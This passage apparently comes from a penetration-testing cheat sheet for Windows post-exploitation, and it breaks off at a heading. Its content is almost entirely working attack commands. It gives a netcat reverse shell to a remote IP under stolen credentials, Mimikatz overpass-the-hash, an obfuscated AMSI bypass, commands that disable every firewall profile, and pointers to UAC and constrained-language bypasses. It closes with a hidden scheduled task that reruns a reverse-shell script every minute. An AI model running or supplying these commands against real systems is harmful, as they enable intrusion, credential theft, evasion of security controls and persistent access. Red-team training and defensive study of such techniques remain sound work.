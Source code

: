 $username='domain\username'<br>
$password='secretPassword'<br>
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force<br>
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process .\nc.exe -ArgumentList '10.10.xx.xx 4445 -e cmd.exe' -Credential $credential

2.2 Add host to trusted sources

Set-Item WSMan:\localhost\Client\TrustedHosts *

2.3 "Overpass the hash" generate tokens from hashes

Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:subdomain.domain.local /ntlm:<ntlmhash> /run:powershell.exe"'

# 3 Defense evasion
3.1 AMSI Bypass Source: [https://recipeforroot.com/advanced-powerup-ps1-usage/](https://recipeforroot.com/advanced-powerup-ps1-usage/)

sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )

3.2 Disable Local Firewall

Get firewall profiles
get-netfirewallprofile -profile domain,public,private | format-table -property name,enabled

Disableprofiles
set-netfirewallprofile -profile domain,public,private -enabled false

3.3 Bypass UAC with FodHelper.exe [https://pentestlab.blog/2017/06/07/uac-bypass-fodhelper/](https://pentestlab.blog/2017/06/07/uac-bypass-fodhelper/)

- Spawn reverse shell (or execute payload) to bypass UAC. Please see fodhelperBypass.ps1

3.4 Bypass UAC with CMSTP [https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html](https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html)

3.5 Bypass PowerShell Constrained Language Mode

Please refer to CLMBypass.ps1. The script utilizes System.Management.Automation.PowerShell.Runspace to bypass CLM. Assembly compiled to .exe executable, but the script can be modified to be chained with AppLocker bypass scenarios.

# 4 Persistence

4.1 Local persistence: Scheduled tasks

schtasks /create /sc minute /mo 1 /tn evil /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass c:\temp\rev.ps1" /f

4.2 Domain Persistence: Silver Ticket
